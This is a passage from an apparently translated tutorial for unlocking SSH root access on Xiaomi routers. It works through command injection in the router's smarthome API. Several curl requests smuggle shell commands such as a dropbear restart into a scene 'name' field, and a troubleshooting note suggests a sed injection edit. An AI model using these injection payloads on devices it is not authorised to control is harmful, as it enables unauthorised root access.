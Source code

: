 Execute the command.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_start_by_crontab%22%2C%22time%22%3A%223%3A4%22%2C%22week%22%3A0%7D"

Submit the dropbear restart command to restart the dropbear service.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_setting%22%2C%22name%22%3A%22'%24(%2Fetc%2Finit.d%2Fdropbear%20restart)'%22%2C%22action_list%22%3A%5B%7B%22thirdParty%22%3A%22xmrouter%22%2C%22delay%22%3A17%2C%22type%22%3A%22wan_block%22%2C%22payload%22%3A%7B%22command%22%3A%22wan_block%22%2C%22mac%22%3A%2200%3A00%3A00%3A00%3A00%3A00%22%7D%7D%5D%2C%22launch%22%3A%7B%22timer%22%3A%7B%22time%22%3A%223%3A5%22%2C%22repeat%22%3A%220%22%2C%22enabled%22%3Atrue%7D%7D%7D"

Execute the command.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_start_by_crontab%22%2C%22time%22%3A%223%3A5%22%2C%22week%22%3A0%7D"

# Step 5: Connect to SSH
Everything is done, exciting times.  
Open your favorite SSH software, ssh `root@<HOST>`, and if you are able to establish a connection, then the injection is successful!  

The default password can be found in the [MiWiFi.DEV SSH Passwd Calculator Calculate](https://miwifi.dev/ssh) , enter your S/N serial number to get the default password, use the default password to connect.  

### (?) Troubleshooting
Can't connect to SSH?  
Please check and confirm that the IP address is correct
Try restarting your router one more time  

If it still doesn't work, please confirm firstWhether the SSH in step 3 has become true。 If yes, try using vulnerability injection  sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear command  

(Note: This injection can be difficult and involves escaping with multiple quotes.)

If there is still no response, see the Troubleshooting section at the end of this article.  

Note: This exception has been successfully reproduced on AIoT AC2100, if you encounter such a problem, please refer to this post first Turn on Telnet on the 25th floor, and try to use Telnet connection, if it still doesn't work, it may be that the current ROM version has added some limitations. Downgrading is recommended. For AC2100 users, please refer to it Here solution.


# Step 6: Reset the router time
Go to the router's web background or use the API `(only if the router is routed as a mesh sub-route)` to reset the time.

> curl -X GET "http://`<HOST>`/cgi-bin/luci/; stok=`<TOKEN>`/api/misystem/set_sys_time?time=<年>-<月><日>-%20<时>:<分>:<秒>&timezone=<时区>"
